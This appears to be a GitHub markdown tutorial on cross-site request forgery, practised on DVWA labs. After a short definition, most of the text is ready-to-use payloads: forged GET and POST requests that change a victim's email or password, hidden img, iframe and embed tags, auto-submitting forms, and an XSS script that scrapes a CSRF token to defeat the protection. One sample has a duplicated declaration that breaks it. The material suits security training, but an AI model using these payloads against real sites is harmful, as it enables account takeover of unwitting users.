 ## 1. CSRF Attack

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```

**Exploit CSRF Vulnerability Via HTML Injections (POST Method)**

>Form + Script Tag (Without Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

>Form + Script Tag (With Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
            <input type="hidden" name="token" value="tokenishere" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

**Exploit CSRF Vulnerability Via XSS (GET Method)**

>Whithout token
```
<script>
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass'
;
HttpRequest.open("GET", url);
HttpRequest.send();
</script>
```

>With token
```
<body onload="change_password()">
 <script>
        function change_password(){
            const request = new XMLHttpRequest();
            const url = "http://localhost:80/vulnerabilities/csrf/"
            

            request.open("GET", url);
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;

                var user_token = /[a-f0-9]{32}/g.exec(response)[0]
                var payload = "http://localhost:80/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change&user_token="+user_token;
                var second_request = new XMLHttpRequest();
                second_request.open("GET", payload);
                second_request.send()

            }
            };
            request.send()
        
    }
        </script>
</body>
```
